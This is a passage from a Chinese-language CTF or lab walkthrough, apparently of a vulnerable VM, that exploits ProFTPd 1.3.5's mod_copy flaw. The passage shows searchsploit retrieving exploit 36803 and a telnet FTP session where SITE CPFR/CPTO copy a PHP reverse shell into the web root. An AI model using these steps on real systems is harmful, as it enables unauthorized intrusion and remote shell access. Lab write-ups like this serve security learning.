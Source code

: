 image-20250204220822436  
  
复制到当前目录下并执行  
```
searchsploit -m 36803
python2 36803.py

```  
  
![image-20250204221015086](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH8MpNCia3Aa7ficRHkibbxGHypSZGI5icwnuv4LoWTfPd32RmOdryKYibUPkzXibwTwr1lq02aZf6ico6EA/640?wx_fmt=png&from=appmsg "")  
  
image-20250204221015086  
  
执行脚本的时候它直接卡在这儿了  
  
![image-20250204221711479](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH8MpNCia3Aa7ficRHkibbxGHyncJxoOHibAhQUGicYrggHQEicibGcTFUxvQqRIpd6Vxx54U9ouTSib7Mgrw/640?wx_fmt=png&from=appmsg "")  
  
image-20250204221711479  
  
查看脚本内容，这是一个网站的目录  
  
![image-20250204221840564](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH8MpNCia3Aa7ficRHkibbxGHycN0Lpg0pG5K8wUP0zrsicCY4ic8WgwqVgOkO5tZzYJ8B5rl1knQWPGdA/640?wx_fmt=png&from=appmsg "")  
  
image-20250204221840564  
  
这个目录呢在刚刚的版本文件version_control中也有 /var/www/tryingharderisjoy.  
```
┌──(root㉿kali)-[~]
└─# cat version_control
Version Control of External-Facing Services:

Apache: 2.4.25
Dropbear SSH: 0.34
ProFTPd: 1.3.5
Samba: 4.5.12

We should switch to OpenSSH and upgrade ProFTPd.

Note that we have some other configurations in this machine.
1. The webroot is no longer /var/www/html. We have changed it to /var/www/tryingharderisjoy.
2. I am trying to perform some simple bash scripting tutorials. Let me see how it turns out.

```  
  
但还是不行，msf可以利用，这里不做过多解释，继续手动  
  
![image-20250204222115428](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH8MpNCia3Aa7ficRHkibbxGHyJdx2toticPsawZDLwf5CicGTrXamSuCoAViabpu5R5iacNLictoFHiaSRwFA/640?wx_fmt=png&from=appmsg "")  
  
image-20250204222115428  
  
我们得知了网站的目录/var/www/tryingharderisjoy，那么就利用刚刚的文件复制漏洞  
  
![image-20250204223302263](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH8MpNCia3Aa7ficRHkibbxGHyGfWSZ4uMcfhBhtnNUKiaeRKv7nocL4Vkf4BK4pMz9ib6vddERicvnicVcw/640?wx_fmt=png&from=appmsg "")  
  
image-20250204223302263  
  
命令如下  
```
┌──(root㉿kali)-[/usr/share/webshells/php]
└─# telnet 10.10.10.198 21
Trying 10.10.10.198...
Connected to 10.10.10.198.
Escape character is '^]'.
220 The Good Tech Inc. FTP Server
site cpfr /home/ftp/upload/php-reverse-shell.php
350 File or directory exists, ready for destination name
site cpto /var/www/tryingharderisjoy/php-reverse-shell.php
250 Copy successful
quit
```